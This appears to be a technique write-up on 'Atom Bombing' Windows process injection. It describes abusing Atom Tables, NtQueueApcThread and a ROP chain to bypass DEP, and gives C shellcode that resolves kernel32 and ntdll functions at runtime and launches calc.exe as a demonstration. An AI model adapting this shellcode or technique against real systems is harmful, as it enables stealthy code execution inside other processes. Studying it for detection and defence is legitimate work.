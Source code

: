 # Atom Bombing

Atom Bombing is another form of process injection. As Process Doppelgänging, this technique abuses legitimate Windows functions, in this case Atom Tables. The Atom Tables provide a globally accessible string storage mechanism. Thus, an application can store data into an Atom Table, where other applications can access it. The Atom Bombing technique will store a shellcode into the Atom Tables. Then by forcing the targeted process (with NtQueueApcThread) to call this specific Atom, the injection will occur. Finally, a Return Oriented Programming chain is used to bypass Data Execution Prevention (DEP), to run the shellcode.

```c
typedef void * (__stdcall *pfnLoadLibraryA)(void *lpLibFileName);
typedef void * (__stdcall *pfnGetProcAddress)(void * hModule, void * lpProcName);
typedef int(__stdcall *pfnWinExec)(void * lpCmdLine, unsigned int uCmdShow);
typedef int(__stdcall *pfnZwContinue)(void * lpContext, int TestAlert);

typedef struct _FUNCTIONPOINTERS
{
	pfnLoadLibraryA pfnLoadLibraryA;
	pfnGetProcAddress pfnGetProcAddress;
} FUNCTIONPOINTERS, *PFUNCTIONPOINTERS;

FUNCTIONPOINTERS g_FunctionPointers;

void shellcode_entry();

__declspec(naked) void fix_esp()
{
	__asm{
		mov eax, edi;
		add ax, 0xc4;
		mov esp, [eax];
		sub sp, 0x1024;
		// This is needed for alignment purposes
		nop;
		nop;
		nop;
	}
	
}

void shellcode_entry()
{
	PFUNCTIONPOINTERS ptFunctionPointer = 0x13371337;
	pfnWinExec pfnWinExec;
	pfnZwContinue pfnZwContinue;
	void * ptContext;
	void * hKernel32;
	void * hNtDll;
	char pszKernel32[] = { 'k', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
	char pszNtDll[] = { 'n', 't', 'd', 'l', 'l', '.', 'd', 'l', 'l', '\0' };
	char pszZwContinue[] = { 'Z','w','C','o','n','t','i','n','u','e', '\0'};
	char pszWinExec[] = { 'W', 'i', 'n', 'E', 'x', 'e', 'c', '\0' };
	char pszCalcExe[] = { 'c', 'a', 'l', 'c', '.', 'e', 'x', 'e', '\0' };

	__asm{
		mov[ptContext], edi;
	}

	hKernel32 = ptFunctionPointer->pfnLoadLibraryA(pszKernel32);
	if (0 == hKernel32)
	{
		goto lblCleanup;
	}
	
	hNtDll = ptFunctionPointer->pfnLoadLibraryA(pszNtDll);
	if (0 == hNtDll)
	{
		goto lblCleanup;
	}

	pfnZwContinue = ptFunctionPointer->pfnGetProcAddress(hNtDll, pszZwContinue);
	if (0 == pfnZwContinue)
	{
		goto lblCleanup;
	}

	pfnWinExec = ptFunctionPointer->pfnGetProcAddress(hKernel32, pszWinExec);
	if (0 == pfnWinExec)
	{
		goto lblCleanup;
	}

	pfnWinExec(pszCalcExe, 0);

	pfnZwContinue(ptContext, 1);

lblCleanup:
	return;
}

void dummy()
{
	int dummy = 0xDEADBABE;
}

#include <Windows.h>

int main()
{
	g_FunctionPointers.pfnGetProcAddress = GetProcAddress;
	g_FunctionPointers.pfnLoadLibraryA = LoadLibraryA;
	fix_esp();
	shellcode_entry();
	dummy();
}
```
